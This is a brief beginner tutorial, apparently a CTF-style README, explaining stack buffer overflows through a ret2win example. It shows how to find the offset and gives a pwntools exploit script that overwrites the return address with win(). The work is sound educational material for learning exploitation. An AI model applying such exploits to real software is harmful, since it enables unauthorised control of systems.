

To understand what is stack buffer overflow, I recommend reading https://en.wikipedia.org/wiki/Stack_buffer_overflow
But if you need simple understanding of it. It happens when we write more data to buffer than intended. For example when buffer size is 0x40 but we can write as much as we can. It happens, when writing function or copying function doesn't check bounds. We have an example here to demonestrate it simply. It is just ret2win stack bof.

In example binary, when we go to vuln() function, we can see buffer is 64 (integers) bytes in size but read() function write 0x200 (hex) bytes in it. It is obviously stack buffer overflow. Now we have to open the binary in gdb to see what is offset from buffer to return address, so we can overwrite it to win() function address.
In this example I used:
```bash
python3 -c "print('A' * 64)"  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

So I can have exactly 64 A's to fill up buffer then I checked out stack in gdb to see offset:


As you can see, there is **0x004012ca** it is exactly 8 bytes far from stack. using this information we can write python script, there is no need for pwntools but to learn it for better usage, I intentionally use it.

We can also see in checksec PIE is not enabled so we can overwrite easily.


At the end we get this script as solution:
```python
from pwn import *

context.binary = ELF("stack-bof-ret2win")

p = process(["stack-bof-ret2win"])
payload = b"A" * 72 + p64(0x401271) # we can also write context.binary.sym.win
p.sendafter(b"payload?\n", payload)
print(p.recvall().decode().strip())

```

It is actually too simple so nothing to write much about.